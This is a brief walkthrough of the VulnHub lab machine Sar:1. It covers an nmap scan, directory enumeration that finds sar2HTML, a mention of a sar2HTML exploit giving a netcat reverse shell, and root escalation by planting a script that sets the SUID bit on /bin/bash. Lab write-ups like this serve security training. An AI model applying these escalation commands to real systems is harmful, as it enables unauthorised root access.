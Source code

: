 

# Sar:1 Walkthrough 

**VulnHub Link:** [Sar:1](https://www.vulnhub.com/entry/sar-1,425/)
**Difficulty:** Easy
**Release Date:** 15 Feb 2020

## 1.Reconnaissance
```bash
nmap -A -O -T4 -P -sV 192.168.100.131
```


## 2.Web Enumeration

```bash
dirb http://ip
```

sar2HTML found in robots.txt and http://<ip>/sar2HTML

## 3. Exploitation

sar2HTML 3.2.1 exploit found and gaining reverse shell with netcat

love user found

user flag captured

## 4.Privilege Escalation

finally.sh --> write.sh
```bash
echo '#!/bin/bash
chmod +s /bin/bash' > write.sh
chmod +x write.sh
```
suid byte has been added to /bin/bash

/bin/bash -p --> escalating to root and root flag captured
